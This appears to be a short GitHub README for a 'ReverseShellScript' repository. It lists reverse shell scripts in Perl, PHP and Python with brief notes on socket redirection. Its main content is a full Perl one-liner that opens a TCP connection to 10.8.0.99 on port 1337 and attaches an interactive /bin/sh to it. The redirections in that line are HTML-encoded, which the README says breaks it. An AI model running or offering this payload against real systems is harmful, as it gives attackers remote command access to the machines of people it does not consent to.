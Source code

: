 # ReverseShellScript (Not mine script)
Reverse Shell script : PERL , PHP , PYTHON
___

ReverseShell.pl
```>&S``` is the correct command to redirect data to socket ```S```.

ReverseShell2.pl
```&gt;&amp;S``` is an encoded format that does not work in Perl or shell. (Its output will be sent out in HTML tags.)

ReverseShell3.pl
for BIND ReverseShell ;)

```php
perl -e 'use Socket;$i="10.8.0.99";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,"&gt;&amp;S");open(STDOUT,"&gt;&amp;S");open(STDERR,"&gt;&amp;S");exec("/bin/sh -i");};'
```
